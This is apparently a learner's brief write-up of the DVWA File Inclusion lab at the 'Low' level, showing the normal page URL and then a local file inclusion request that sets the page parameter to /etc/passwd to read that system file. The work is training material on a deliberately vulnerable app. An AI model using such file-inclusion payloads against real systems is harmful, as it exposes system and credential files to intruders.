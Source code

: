 # File Inclusion

## Low 

原本的路徑：
```
    http://127.0.0.1/dvwa/vulnerabilities/fi/?page=include.php
```
打了passwd 可以看到整個passwd
```
    http://127.0.0.1/dvwa/vulnerabilities/fi/?page=/etc/passwd
```